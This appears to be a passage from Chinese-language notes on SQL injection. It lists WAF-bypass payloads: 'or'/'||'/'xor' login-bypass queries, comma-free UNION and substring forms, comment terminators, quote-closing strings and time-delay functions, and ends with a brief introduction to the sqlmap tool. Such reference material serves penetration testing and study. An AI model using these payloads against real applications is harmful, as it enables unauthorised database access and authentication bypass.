 ### 逻辑符号

```sql
select * from users where username='admin' and password='admin'
select * from users where username='admin' && password='admin'
select * from users where username='admn' or password='admin'
select * from users where username='admn' || password='admin'
select * from users where username='admn' xor password='admin'
not  !
```

### 逗号绕过

```sql
select mid(database() from 2 for 1)
select * from users where id =1 union select * from (select 1)a1 join(select 2)a2 join(select 3)a3
```

### 注释符

注释符闭合

```sql
#   		可url编码%23
-- -
/**/
```

手动闭合

```sql
select * from users where username='1' or '1' and password='1' or '1'
username=1' or '1
```

### 函数替换

```
# 字符串截取
mid()/substr()/substring()
left()/right()

ord()/ascii()/char()

group_concat()/concat()/concat_ws()/limit

sleep()/select BENCHMARK(10000000,database())
```

## 工具注入

### 介绍

SQLMAP是一个开放源码的渗透测试工具，它可以自动探测和利用SQL注入漏洞来接管数据库服务器。它配备了一个强大的探测引擎，为最终渗透测试人员提供很多强大的功能，可以拖库，可以访问底层的文件系统，还可以通过带外连接执行操作系统上的命令。
